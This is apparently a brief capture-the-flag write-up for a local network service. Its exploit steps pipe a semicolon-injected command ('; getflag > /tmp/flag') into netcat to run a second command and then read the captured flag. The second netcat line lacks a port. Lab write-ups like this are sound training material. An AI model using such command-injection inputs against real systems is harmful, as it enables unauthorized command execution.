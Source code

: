 ### Documentation
[SHA](https://sha1.gromweb.com/?string=NotSoEasy)

### Exploit
1. `nc 127.0.0.1 5151`
    ```
    Password: test
    Erf nope..
    ```

2.  `echo "; getflag > /tmp/flag" | nc 127.0.0.1`

3. `cat /tmp/flag`